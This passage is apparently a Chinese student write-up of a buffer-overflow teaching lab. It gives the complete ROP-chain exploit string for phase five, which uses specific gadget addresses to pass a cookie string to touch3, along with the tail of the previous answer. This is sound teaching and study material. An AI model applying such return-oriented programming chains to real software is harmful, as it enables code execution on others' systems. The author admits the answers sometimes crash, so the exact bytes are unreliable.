 ```
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

## 第五题
与上题类似，要求重复第三题的结果，要求将 `cookie` 字符串的地址存入 `%rdx` ，考虑到栈随机化，无法直接得到地址。注意到这里 `48 89 e0 90` 是 `movq %rsp,%rax` ，将栈顶的地址存在了 `%rax` ，可以利用这一点来传地址。
```
0000000000401aab <setval_350>:
  401aab:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:       c3                      retq
```
由上题我们可以实现 `movq %rax,%rdi` ，是不是直接将传入的字符串存到栈顶，再将栈顶地址存入 `%rdi` 就做完了？这里要注意，如果直接将字符串存到栈顶， `48 89 e0 90 c3` 在返回时会跳转到栈顶，字符串就成要运行的指令了，就会发生错误。       
这里考虑将栈顶地址加值传入，使得要传入的字符串与栈顶拉开距离，不被执行。（我开始试图用官方文档给的参考指令给 `%eax` 做加法，但很复杂还不一定能成，我把它附在了最后面[1]，有闲情再看吧T_T）这里的加法用到了一个文档里没有的指令：
```
00000000004019d6 <add_xy>:
  4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:       c3                      retq
```
`04 37` 是 `add $0x37,%al` ，可以表示将传入的字符串存在距离栈顶 `0x37` （55）字节处。  
由上，可以构造这样一个攻击链：   
先填充 40 字节破坏栈，紧接着是  `movq %rsp,%rax`，将下一个栈顶位置存入 `%rax` ，代码位置是 `0x401aad`；接着 `add $0x37,%al` ，给 `%rax` 加值 `0x37` ，这段代码位置是 `0x4019d8` ；然后将 `%rax` 值传入函数的参数 `%rdi` ，代码位置由上题是 `0x4019a2` ，然后跳转到 `touch3` 函数，地址是 `0x4018fa` ；最后存入字符串，并在其前面填充字节使其地址与保存的栈顶地址相差 55 个字节，共要填充 `(55-3×8)=31` 个字节，所以答案可以是：
```
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
ad 1a 40 00 00 00 00 00
d8 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
31 31 31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31 31 31
31
35 39 62 39 39 37 66 61 00
```

## 小结
这次 lab 较简单，涉及了栈随机化，ROP 攻击等内容，通过这个 lab ，我对汇编、栈都有了更深的了解，这篇文章给了所有题目的解答，但是，这里有一个问题：使用这些解答存在出现 `Type string:Ouch!: You caused a segmentation fault!` 的可能，原因未知，此篇解答与参考资料里的解答也能对应上，所以我想出现这个问题可能是机器的原因吧？
